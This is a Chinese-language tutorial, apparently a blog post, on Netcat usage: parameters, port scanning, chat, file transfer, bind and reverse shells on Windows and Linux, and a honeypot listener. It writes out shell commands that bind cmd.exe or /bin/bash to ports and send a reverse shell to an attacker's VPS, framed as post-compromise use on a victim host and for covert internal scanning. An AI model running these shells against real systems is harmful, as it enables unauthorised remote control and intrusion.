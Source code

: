 **目录**

[Netcat](#t0)

[常用参数](#t1)

[常见的用法](#t2)

[端口扫描：](#t3)

[聊天](#t4)

[文件传输](#t5)

[反弹shell](#t6)

[正向连接(目标是windows)](#t7)

[正向连接(目标是Linux)](#t8)

[反向连接(目标是Windows)](#t9)

[反向连接(目标是Linux)](#t10)

[蜜罐](#t11)

* * *

Netcat
======

**Netcat** 常称为 nc，拥有“瑞士军刀”的美誉。nc 小巧强悍，可以读写TCP或UDP网络连接，它被设计成一个可靠的后端工具，能被其它的程序或脚本直接驱动。同时，它又是一个功能丰富的网络调试和开发工具，因为它可以建立你可能用到的几乎任何类型的连接，以及一些非常有意思的内建功能，它基于socket协议工作。在渗透测试领域，我们通常利用它来反弹shell。

**常用参数**
========

*     -l： 开启监听
*     -p：指定端口
*     -t： 以telnet形式应答
*     -e：程序重定向
*     -n：以数字形式表示ip
*     -v：显示执行命令过程
*     -z :  不进行交互，直接显示结果
*     -u ：使用UDP协议传输
*     -w :  设置超时时间

常见的用法
=====

端口扫描：
-----

如果是想单纯的端口扫描的话，利用其它工具比如 nmap会更好。nc端口扫描最主要的用途是，当我们获得了一个网站的权限之后，我们想再渗透进该网站的内网进行渗透。然而，我们的nmap工具是不能扫描到内网的，所以这时我们可以把nc上传到web服务器上，利用它来扫描内网主机。而由于nc体积很小，所以不容易被发现。

```
nc  -z -v -n 192.168.10.14  20-23   #端口或端口范围
```


![](https://img-blog.csdnimg.cn/20181115164108291.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

如果探测到端口开放了，比如上面的 80 端口开放了，我们就可以继续探测其banner信息： 

```
nc -v -n 192.168.10.14  80      
然后输入get
```


![](https://img-blog.csdnimg.cn/20181115164358199.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

聊天
--

我们还可以利用 nc 做一个简易版本的聊天工具，通过一边监听端口，一边发送消息去该端口，形成一个简易版本的服务端—客户端模型。

**服务器端：**

```
nc   -lvp    8888      #监听8888端口  -l 监听 -v 显示详细信息  -p 指定端口
```


**客户端：**

```
nc  -nv  10.96.10.208  8888    #连接到服务器的8888端口  -n以数字形式显示ip  -v显示详细信息
```


![](https://img-blog.csdnimg.cn/20181115170537457.png)

文件传输
----

我们可以利用 nc 往客户端传送文件

**服务器端：**

```
nc  -lvp  8888 < test.txt
```


**客户端：**

```
nc -nv 10.96.10.208 8888 > test.txt
```


![](https://img-blog.csdnimg.cn/20181115171306605.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

反弹shell
-------

### 正向连接(目标是windows)

假如我们现在入侵到了一台主机上，我们可以通过执行以下命令将该主机的cmd命令弹到8888端口上

**肉鸡**

```
nc -lvv -p 8888 -t -e cmd.exe
```


然后我们的主机访问该肉鸡的8888端口

**我们的主机**

```
nc  -nvv  192.168.10.14  8888
```


### ![](https://img-blog.csdnimg.cn/20181115172533974.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 正向连接(目标是Linux)

目标主机监听8888端口，并反弹bash到8888端口

```
nv -lvp 8888 -t -e /bin/bash
```


我们主动连接目标主机的8888端口

```
nc -nvv 121.201.40.44 8888
```


![](https://img-blog.csdnimg.cn/20200511181651747.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 反向连接(目标是Windows)

**我们的主机**

```
nc  -lvp  8888
```


**肉鸡**

```
nc  -t -e cmd.exe 10.96.10.208 8888
```


![](https://img-blog.csdnimg.cn/20181115173348959.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 反向连接(目标是Linux)

我们VPS监听8888端口

```
nc -lvp 8888
```


肉鸡执行如下命令反弹bash到我们的8888端口

```
nc vps地址 2222 -e /bin/bash
```


![](https://img-blog.csdnimg.cn/20200511181328929.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

蜜罐
--

作为蜜罐

一直监听8888端口，知道 ctrl+C 停止

```
​​​​​​​nc  -L -p  8888  > log.txt   #监听8888端口，并且将日志信息写入log.txt中
```


![](https://img-blog.csdnimg.cn/20181115190523919.png)